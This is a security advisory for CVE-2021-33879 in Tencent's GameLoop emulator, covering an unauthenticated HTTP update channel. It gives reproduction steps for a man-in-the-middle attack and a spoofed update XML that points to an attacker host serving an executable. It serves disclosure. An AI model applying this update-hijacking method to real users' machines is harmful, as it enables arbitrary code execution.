


**CVEID**: CVE-2021-33879

**Name of the affected product(s) and version(s)**: GameLoop (all versions prior to 4.1.21.90)

**Vulnerability type**:  CWE-494: Download of Code Without Integrity Check

---

**Summary**


GameLoop is an Android emulator developed by Tencent. It features an update mechanism which is not encrypted
or authenticated (other than by MD5 hashes which in this exploit can be controlled by the attacker),
allowing attacker in a MITM position to intercept and send his own update packages which will be executed on
the victim machine.

**Description**
 
Tencent GameLoop before 4.1.21.90 downloaded updates over an insecure HTTP connection. A malicious attacker
in a MITM position could spoof the contents of an XML document describing an update package, replacing a download
URL with one pointing to an arbitrary Windows executable. Because the only integrity check would be a comparison of
the downloaded file's MD5 checksum to the one contained within the XML document, the downloaded executable would
then be executed on the victim's machine.
 
**Reproduction**

- set up the attacker environment:
  - set up a webserver, put your executable payload on it, calculate its MD5 hash
  - set up a proxy, configure it to intercept requests to ComponentUpdate.xml
- set up the victim environment:
  - configure internet connection through attacker's proxy
  - install a vulnerable version of GameLoop
- victim: force update check
  - run GameLoop
  - click 'Update' from hamburger menu
- attacker: modify ComponentUpdate.xml (put appropriate url, md5 and filesize of your payload)
```xml
<?xml version="1.0" encoding="utf-8"?>
<UpdateConfig>
	<GlobalConfig>
		<Item name="UpdateEnable" Value="1" />
	</GlobalConfig>
	<UpdatePolicy>
		<PolicyItem id="1" Enable="1" AutoUpdateRate="1" ManualUpdateRate="100" MatchUpdateOperation="2" Weight="4">
			<Condition Method="Or">
				<MatchSupplyId Type="market" MatchResult="0" Start="3.10.199.100" End="4.99.999.999" />
			</Condition>
		</PolicyItem>
	</UpdatePolicy>
	<UpdateOperation>
		<OperItem id="2" inherit="0" Desc="This is a malicious update" Title="Malicious update" text="I could serve you ransomware but I'll just spawn calc">
			<Item Type="market" url="http://attacker.local/calc.exe" md5="c4cb4fdf6369dd1342d2666171866ce5" version="5.10.199.100" filesize="32768" />
		</OperItem>
	</UpdateOperation>
</UpdateConfig>
```
- victim: click 'Update Now'


- attacker's payload should be now executed on a victim machine



**Remedy**

Install a newer version of GameLoop.
